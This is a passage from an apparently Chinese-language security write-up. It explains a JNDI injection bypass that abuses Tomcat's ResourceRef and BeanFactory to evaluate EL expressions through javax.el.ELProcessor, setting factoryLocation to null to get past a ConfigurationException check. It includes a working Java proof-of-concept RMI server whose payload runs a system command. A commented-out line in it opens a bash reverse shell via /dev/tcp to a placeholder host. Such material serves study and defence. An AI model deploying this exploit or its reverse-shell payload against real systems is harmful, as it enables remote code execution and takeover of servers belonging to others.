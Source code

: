 传入的 `Reference`为 `ResourceRef` 类，后面通过反射的方式实例化 `Reference` 所指向的任意 `Bean Class`，调用 `setter` 方法为所有的属性赋值，该 `Bean Class` 的类名、属性、属性值，全都来自于 `Reference` 对象。`ResourceRef`构造器的第七个参数`factoryLocation`是远程加载`factory`的地址，比如是一个`url`,这里将其设置为`null`,达到绕过`ConfigurationException`限制。

#### [poc](#toc_poc)

```plain
public class bypass {
    public static void main(String args[]) {
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            // ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['bash','-c','bash -i >& /dev/tcp/ip/port 0>&1']).start()\")"));
           ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"open -a Calculator.app\")"));

            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("calc", referenceWrapper);
            System.err.println("Server ready");
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

`org.apache.naming.ResourceRef` 在 `tomcat` 中表示某个资源的引用，其构造函数参数如下：

```plain
/**
    * Resource Reference.
    *
    * @param resourceClass Resource class
    * @param description Description of the resource
    * @param scope Resource scope
    * @param auth Resource authentication
    * @param singleton Is this resource a singleton (every lookup should return
    *                  the same instance rather than a new instance)?
    * @param factory The possibly null class name of the object's factory.
    * @param factoryLocation The possibly null location from which to load the
    *                        factory (e.g. URL)
    */
public ResourceRef(String resourceClass, String description,
                    String scope, String auth, boolean singleton,
                    String factory, String factoryLocation) {
                        //...
                    }
```
